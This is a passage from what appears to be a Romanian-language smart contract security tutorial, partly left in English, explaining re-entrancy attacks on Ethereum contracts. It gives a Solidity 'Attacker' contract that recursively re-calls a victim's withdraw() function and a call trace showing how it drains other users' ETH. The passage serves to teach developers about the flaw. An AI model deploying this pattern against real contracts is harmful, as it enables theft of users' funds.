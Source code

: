 Pentru a permite unui utilizator să retragă ETH-ul stocat anterior în contract, această funcție

1. Citește valoarea soldului unui utilizator
2. Îi trimite valoarea soldului în ETH
3. Resetează soldul la 0, deci nu își mai poate retrage din nou soldul.

If called from a regular account (such as your own MetaMask account), this functions as expected: msg.sender.call.value() simply sends your account ETH. Cu toate acestea, contractele inteligente pot efectua și ele apeluri. Dacă un contract personalizat rău intenționat este cel care apelează `withdraw()`, msg.sender.call.value() nu numai că va trimite `amount` de ETH, dar va apela implicit și contractul pentru a începe executarea codului. Imaginaţi-vă acest contract răuvoitor:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Apelarea Attacker.beginAttack() va începe un ciclu care arată cam aşa:

```
0.) Atacatorul EOA apelează Attacker.beginAttack() cu 1 ETH
0.) Attacker.beginAttack() depozitează 1 ETH în Victimă

  1.) Atacant -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victima trimite ETH Atacantului (care execută funcția implicită)
    2.) Atacant -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victima trimite ETH Atacantului (care execută funcția implicită)
      3.) Atacant -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victima trimite ETH Atacantului (care execută funcția implicită)
        4.) Atacantul nu mai are suficient gaz, se întoarce fără să apeleze din nou
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (a fost deja 0)
  1.) balances[msg.sender] = 0; (a fost deja 0)
```

Apelarea Attacker.beginAttack cu 1 ETH va ataca prin re-intrare Victima, retrăgând mai mult ETH decât a furnizat (luat din soldurile altor utilizatori, iar din această cauză contractul Victimă ajunge să fie sub-garantat)

### Cum să abordaţi re-intrarea (modul greșit) {#how-to-deal-with-re-entrancy-the-wrong-way}
